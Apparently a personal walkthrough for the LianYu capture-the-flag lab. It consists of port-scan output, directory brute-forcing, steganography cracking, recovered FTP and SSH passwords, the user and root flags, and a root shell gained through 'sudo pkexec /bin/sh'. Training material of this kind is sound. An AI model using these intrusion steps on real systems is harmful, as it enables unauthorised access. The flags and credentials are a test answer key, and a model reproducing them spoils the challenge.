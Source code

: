 <pre>
Machine IP: 10.10.95.45

Enum:
    Open ports:
        21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey:
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp  open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Purgatory
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          35739/tcp6  status
|   100024  1          44092/tcp   status
|   100024  1          60686/udp   status
|_  100024  1          60726/udp6  status


        


Code word : vigilante

Enum gobuster:
    gobuster dir --url http://10.10.95.45/ --wordlist /root/Documents/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt

/island (Status: 301)


gobuster dir --url http://10.10.95.45/island --wordlist /root/Documents/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
/2100 (Status: 301)

gobuster dir --url http://10.10.95.45/island/2100 --wordlist /root/Documents/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .ticket
/green_arrow.ticket

vigilante : !#th3h00d

Login ftp:

Find some png files and download it 

stegcracker aa.jpg /root/Documents/wordlists/rockyou.txt
steghide --extract -sf aa.jpg

Ssh password

ssh slade@10.10.95.45
M3tahuman

User flag: THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
Root flag : THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}

Priv esc 
sudo -l
[sudo] password for slade:
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec


sudo pkexec /bin/sh


https://gtfobins.github.io/gtfobins/pkexec/
</pre>
